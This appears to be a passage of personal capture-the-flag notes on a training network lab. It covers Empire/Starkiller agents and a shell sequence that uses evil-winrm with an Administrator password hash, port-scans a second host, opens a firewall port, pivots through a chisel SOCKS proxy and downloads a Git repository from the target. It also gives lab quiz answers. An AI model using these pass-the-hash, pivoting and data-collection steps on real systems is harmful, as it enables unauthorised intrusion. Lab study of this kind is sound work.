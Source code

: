 * After completing the given steps, we have an agent from the Git Server in Starkiller.

* We can use Modules in Starkiller - search for the "Sherlock" module in the Modules tab - select the module - in the module options, select the Agent and click 'Submit'.

* We can go through the results in the 'Reporting' section of the main menu.

```markdown
1. Can we get an agent back from the git server directly? - Nay

2. Using the help command for guidance: in Empire CLI, how would we run the whoami command inside an agent? - shell whoami
```

## Personal PC

```shell
ls -la /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
#location for powershell-empire scripts

evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.81.150 -s <empire-dir-location>
#connect to git-server using Admin hash
#-s for sharing local directory

Invoke-Portscan.ps1
#run powershell-empire script in evil-winrm shell

Invoke-Portscan -Hosts 10.200.81.100 -TopPorts 50
#scan the other Windows machine

#open up port for pivoting
netsh advfirewall firewall add rule name="Chisel-sv" dir=in action=allow protocol=tcp localport=49337

#for pivoting, we can use chisel
#in evil-winrm session
#upload chisel file from current directory
upload chisel_windows.exe

#setup chisel forward socks proxy
#on target windows
./chisel_windows.exe server -p 49337 --socks5

#on attacker
./chisel_linux client 10.200.81.150:49337 9090:socks
#now the socks proxy is opened on port 9090 of our port

#setup socks proxy using foxyproxy
#access webpage at 10.200.81.100

evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.81.150
#open evil-winrm session in new tab
#enumerate directories

cd C:\GitStack\repositories

dir
#Website.git

download C:\GitStack\repositories\Website.git /home/sv/THM/wreath
#download the complete directory

#in attacker machine
mv 'C:\GitStack\repositories\Website.git' .git
```
